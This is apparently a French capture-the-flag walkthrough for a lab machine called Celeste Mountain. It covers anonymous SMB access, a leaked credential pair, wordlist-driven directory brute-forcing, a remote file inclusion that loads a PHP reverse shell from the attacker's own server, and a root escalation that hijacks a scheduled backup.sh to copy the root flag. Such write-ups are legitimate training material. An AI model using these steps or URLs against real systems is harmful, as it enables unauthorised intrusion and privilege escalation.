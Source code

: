 # Celeste Mountain CTF Walkthrough

## Sommaire

1. [Accès SMB (Samba)](#1-accès-smb-samba)
2. [Récupération de Credentials](#2-récupération-de-credentials)
3. [Exploration Web & CeWL](#3-exploration-web--cewl)
4. [Gobuster et Page Cachée](#4-gobuster-et-page-cachée)
5. [LFI vers RCE via Paramètre `urlConfig`](#5-lfi-vers-rce-via-paramètre-urlconfig)
6. [Reverse Shell et Escalade de Privilèges](#6-reverse-shell-et-escalade-de-privilèges)

---

## 1. Accès SMB (Samba)

On se connecte anonymement à un partage Samba :

```bash
smbclient //10.10.230.210/anonymous -U guest
```

On explore les fichiers partagés et on tombe sur un list de mot de passe et un user on les tests sur le site `squirrel-mail` et on obtien la combinaison qui fonctionne :

```
badeline:Raptorsensei
```

Dans `squirrel-name` on nous donne un mot de passe.

## 2. Récupération de Credentials

On se conecte sur le Samba en tant que badeline avec le mot de passe obtenue dans `squirrel-mail` et on récupére un fichier nommé `secret plan.txt`:

```
It seems people are trying to hack me down!
Never mind this, they'll never be **cewl** enough to find the hidden directory
Remember to use this page: https://celestegame.fandom.com/wiki/Theo
```

## 3. Exploration Web & CeWL

Le fichier nous oriente vers une page web où l’on doit utiliser **CeWL** pour générer une wordlist personnalisée :

```bash
cewl https://celestegame.fandom.com/wiki/Theo -w wordlist.txt
```

## 4. Gobuster et Page Cachée

Avec cette wordlist, on utilise **Gobuster** pour énumérer les répertoires :

```bash
gobuster dir -u http://10.10.75.174/ -w wordlist.txt
```

On trouve une page cachée : `/theounderstars`.

## 5. LFI vers RCE via Paramètre `urlConfig`

Dans le panneau admin, une page vulnérable permet d’injecter une URL externe :

```
http://10.10.75.174/theounderstars/admin/alerts/alertConfigField.php?urlConfig=http://10.8.92.59:8081/reverse.txt
```

On place un fichier `reverst.txt` contenant du code PHP malicieux sur notre serveur local, ce qui nous donne un **reverse shell**.

## 6. Reverse Shell et Escalade de Privilèges

Une fois dans le shell, on se connecte à nouveau en tant que `badeline` avec :

```bash
su badeline
# Password: Raptorsensei
```
🎉 **1er Flag accessible**


On remarque qu’on peut renommer un dossier système et créer un dossier du même nom contenant un fichier `backup.sh`.

On place un script comme ceci :

```bash
#!/bin/bash
cat /root/root.txt > /tmp/root.txt
```

On attend ou déclenche l’exécution automatique de `backup.sh`.

Résultat : le flag root est copié dans un fichier lisible ! 🎉

---

🎉 **2ème Flag accessible**
